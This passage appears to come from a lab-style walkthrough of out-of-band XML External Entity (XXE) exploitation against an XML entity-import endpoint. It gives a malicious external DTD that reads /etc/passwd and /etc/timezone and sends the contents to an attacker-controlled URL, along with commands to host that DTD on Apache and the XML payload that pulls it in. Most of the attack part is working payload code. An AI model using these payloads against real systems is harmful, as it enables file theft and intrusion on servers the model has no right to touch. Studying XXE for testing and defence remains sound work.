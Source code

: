 ```
<productId>XXE</productId>
<primaryProductCategoryId>&xxe;</primaryProductCategoryId>
</Product>
</entity-engine-xml>
```

###### Out-of-Band Exploitation

For this attack to work, we will need to create and host our own DTD file that contains two entities. We will need to use parameter entities because we need the entities to be processed within the DTD so that they can impact each other. Let's create a file named external.dtd with the following content.

```
<!ENTITY % content SYSTEM "file:///etc/passwd">
<!ENTITY % external "<!ENTITY &#37; exfil SYSTEM 'http://your ip address/out?%content;'>" >
```

We place the file in /var/www/html.

```
cd /var/www/html/
sudo mousepad external.dtd
sudo systemctl start apache2
```

We will also need to update our payload to use these entities. Since we are using parameter entities, we will need to reference them within the DOCTYPE definition.

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE oob [
<!ENTITY % base SYSTEM "http://your ip address/external.dtd"> 
%base;
%external;
%exfil;
]>
<entity-engine-xml>
</entity-engine-xml>
```


Let's update external.dtd to target a file that is likely one line and has fewer special characters in it. We will target /etc/timezone.

```
<!ENTITY % content SYSTEM "file:///etc/timezone">
<!ENTITY % external "<!ENTITY &#37; exfil SYSTEM 'http://your ip address/out?%content;'>" >
```

